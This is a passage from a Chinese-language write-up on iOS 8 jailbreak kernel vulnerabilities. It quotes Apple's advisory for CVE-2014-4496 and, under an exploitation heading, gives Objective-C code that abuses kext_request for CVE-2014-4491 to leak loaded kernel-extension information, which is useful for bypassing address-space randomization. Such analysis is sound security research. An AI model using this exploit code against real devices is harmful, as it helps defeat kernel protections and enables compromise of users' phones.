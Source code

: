 表17：CVE-2014-4491

**CVE-2014-4496**

```
Kernel – Fixed in iOS 8.1.3
Available for: iPhone 4s and later, iPod touch (5th generation) and later, iPad 2 and later
Impact: Maliciously crafted or compromised iOS applications may be able to determine addresses in the kernel
Description: The mach_port_kobject kernel interface leaked kernel addresses and heap permutation value, which may aid in bypassing address space layout randomization protection. This was addressed by disabling the mach_port_kobject interface in production configurations.
CVE-ID
CVE-2014-4496 : TaiG Jailbreak Team

```

表18：CVE-2014-4496

**利用方法**

CVE-2014-4491，逻辑漏洞，不需要什么利用技巧，利用如下的代码，可以获取到内核信息：

```
- (NSData *)getKextInfoData
{
    vm_offset_t request = "<dict><key>Kext Request Predicate</key><string>Get Loaded Kext Info</string></dict>";
    mach_msg_type_number_t requestLength = (unsigned int)strlen(request) + 1;

    vm_offset_t response = NULL;
    mach_msg_type_number_t responseLength = 0;

    vm_offset_t log = NULL;
    mach_msg_type_number_t logLength = 0;

    kern_return_t opResult = KERN_SUCCESS;

    kext_request(mach_host_self(),
                 0,
                 request,
                 requestLength,
                 &response,
                 &responseLength,
                 &log,
                 &logLength,
                 &opResult);
    if (opResult != KERN_SUCCESS) {
        printf("[-] getKextInfoString: fail to request kernel info\n");
        return NULL;
    }

    NSData *responseData = [[NSData alloc] initWithBytes:response length:responseLength];

    return [responseData autorelease];
}

```
